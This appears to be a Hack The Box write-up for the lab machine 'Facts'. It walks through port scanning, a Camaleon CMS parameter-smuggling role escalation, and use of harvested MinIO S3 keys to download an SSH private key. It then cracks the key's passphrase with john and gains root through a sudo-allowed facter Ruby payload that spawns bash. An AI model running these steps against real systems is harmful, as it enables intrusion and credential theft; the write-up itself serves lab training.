



# Hack The Box — Facts Walkthrough

## Machine Information
| Field | Value |
|------|------|
| Name | Facts |
| Platform | Hack The Box |
| OS | Linux |
| Difficulty | Easy |
| Release Date | 31st January, 2026 |

## Overview
Brief description of the machine and the main techniques used to solve it.

**Skills / Techniques**
- Enumeration
- Exploitation
- Privilege Escalation
- Web / Burp / AWS s3 / Cracking

## Table of Contents
- Reconnaissance
- Enumeration
- Exploitation
- Privilege Escalation
- Root / Administrator Access
- Lessons Learned

## Recon
Initial information gathering and port scanning.

```
> nmap -sT -T4 -sV -p- --script=http-headers {IP_Addr}
```
### Findings:
- 22/tcp    open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
- 80/tcp    open  http    nginx 1.26.3 (Ubuntu)
- 54321/tcp open  http    Golang net/http server  
  http-server-header: MinIO  
  // Port 54321/TCP is open running an HTTP service built with Go, and the HTTP header reveals the server is MinIO, an S3‑compatible object storage service.
  

## Enumeration

### WEB APP Discovery
```
> ffuf -w '/path/to/wordlist/SecLists/Discovery/Web-Content/common.txt' -u 'http://facts.htb/FUZZ' -fw 1328
```

#### Findings:

- /admin: The CMS dashboard login.
- /search: Search functionality.
- /ajax: Potential API endpoints for dynamic content.

* Creates an account on the /admin panel * 

#### Identifying the IDOR:

After logging in, we access the user profile page. The interface displays a Role dropdown, but it is disabled (disabled="disabled"). By inspecting the page source, we find the following HTML:
```html
<select name="user[role]" id="user_role" disabled="disabled">
    <option value="admin">Administrator</option>
    <option selected="selected" value="client">Client</option>
</select>
```
Although the disabled attribute can be removed using the browser’s developer tools and a request can be crafted to change the role via /admin/users/[ID], the application enforces server-side validation that prevents this direct modification.

### Exploiting the AJAX Password Endpoint: 
The vulnerability occurs in the “Change Password” functionality of the application. The target web application is running Camaleon CMS version 2.9.0 (Copyright © 2015–2026), a CMS built on Ruby on Rails. When a password change is initiated, the application sends an AJAX request to /admin/users/[ID]/updated_ajax.
Although the backend relies on Rails Strong Parameters, the implementation in this specific endpoint does not strictly enforce a whitelist of permitted fields. This oversight makes parameter smuggling possible.
By intercepting the password change request with Burp Suite, an additional parameter can be appended to the POST body:  
  
Even though the request is intended only to update the password, the server processes the extra parameter as well. Due to insufficient parameter filtering, the application ends up modifying the user’s role in the database and elevates the account to Administrator.

### S3/MinIO Exploitation:  
With Administrator access, we gain visibility into the “Filesystem Settings” of Camaleon CMS. In modern deployments, media files are often stored in the cloud rather than on the local disk.
Navigating to Settings → Configuration reveals the S3 storage backend configuration:
Access Key ID: A******************8
Secret Access Key: d**************************************R
S3 Endpoint: http://localhost:54321 (Mapping to the external port 54321)

#### Interacting with MinIO via AWS CLI:  
We configure a local profile to interact with the target’s MinIO instance.  
```
> aws configure --profile facts
```
#### (Input keys as harvested above)  
Listing the buckets:  
```
> aws s3 ls --endpoint-url http://facts.htb:54321 --profile facts
```
There's two buckets: randomfacts and internal. The internal bucket contains a /.ssh folder that also contains a ssh private key named 'id_ed25519'. Download it:  
```
> aws s3 cp s3://internal/.ssh/id_ed25519 . --endpoint-url http://facts.htb:54321 --profile facts
```

## Cracking and Initial Access:

Using ssh-keygen we actually see that the private key is protected by a passphrase --> ret prompt: Enter passphrase for "id_ed25519":
```
> ssh-keygen -y -f id_ed25519
```
We extract the passphrase hash file using ssh2john. 
```
> ssh2john id_ed25519 > hash.txt
```
Now crack the output file with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
 

```
> john --show hash.txt
  id_ed25519:d**********
  1 password hash cracked, 0 left
```
We need to 'chmod 600 key' because OpenSSH refuses to use private keys with overly permissive permissions; chmod 600 ensures only the owner can read and write the key, preventing other users from accessing it.
We also need to generate the public key from the private key because SSH uses the public key on the server to verify the identity. While connecting with -i private_key, the server checks that the private key matches the stored public key in ~/.ssh/authorized_keys; without the public key on the server, authentication will fail.
```
chmod 600 id_ed25519
```
Hence, let's generate the key using the passphrase:
```
ssh-keygen -y -f id_ed25519
Enter passphrase for "id_ed25519": 
ssh-ed25519 A******************************************************************M t*****@facts.htb
```
The comment gives us an important hint, an username: t*****
Now we just have to ssh login:  

```
ssh -i id_ed25519 t*****@facts.htb
```
The user flag is located in /home/w*******/user.txt.

## Privilege Escalation:

As the t**** user, we check our sudo permissions:
```
> sudo -l
    (ALL) NOPASSWD: /usr/bin/facter.
```
Facter is a tool used to gather “facts” about a system, typically used in conjunction with Puppet. 

Let's check https://gtfobins.org/gtfobins/facter/

Facter allows users to specify a --custom-dir from which it will load Ruby scripts to define new facts.

### Crafting the Ruby Payload:
Since Facter is running as root, any Ruby code it executes will inherit root privileges. We create a malicious Ruby fact that spawns a bash shell.
```
mkdir -p /tmp/facts
nano /tmp/facts/exploit.rb
```
```
Facter.add(:exploit) do
  setcode do
    system("/bin/bash")
  end
end
```
### Executing the Root Exploit:
Let's save the exploit to /tmp/facts/exploit.rb and execute it:
```
> sudo /usr/bin/facter --custom-dir /tmp/facts
```
The root flag is stored in /root/root.txt as always.

END.

